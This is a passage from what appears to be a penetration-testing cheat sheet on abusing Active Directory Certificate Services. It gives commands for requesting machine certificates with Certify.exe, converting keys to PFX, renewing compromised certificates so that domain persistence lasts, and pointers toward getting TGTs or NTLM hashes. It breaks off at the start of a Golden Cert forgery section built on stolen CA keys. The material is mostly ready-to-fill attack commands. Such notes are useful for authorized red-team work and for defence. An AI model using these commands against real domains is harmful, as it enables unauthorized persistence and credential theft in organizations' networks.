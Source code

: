 #### Request certificate
- Run when connected on the machine
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME> /machine
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT and perform S4USelf like Certpotato
- [CertPotato](windows-ad/Domain-Privilege-Escalation.md#Local-privesc-CertPotato)

### PERSIST3 Certificate Renewal
- Renew compromised/requested certificates before they expire

#### Install certificate
```
.\CertifyKit.exe list /certificate:<PATH TO PFX> /password:<PASSWORD> /install
```

#### Get serial number
```
certutil -user -store My
```

#### Renew certificate
```
certreq -enroll -user -q -PolicyServer * -cert <CERT SERIAL> renew reusekeys
```

#### Renew certificate and key
```
certreq -enroll -user -q -cert <CERT SERIAL> renew
```

#### List new cert
```
certutil -user -store My
```

#### Use THEFT1 to export certificate and then pass the certificate to get TGT or NTLM hash

### DPersists1 Certificate forgery with stolen CA keys
- Golden Cert attack

#### Enumerate CA
- Execute on the CA server
```
certutil -CAInfo
```
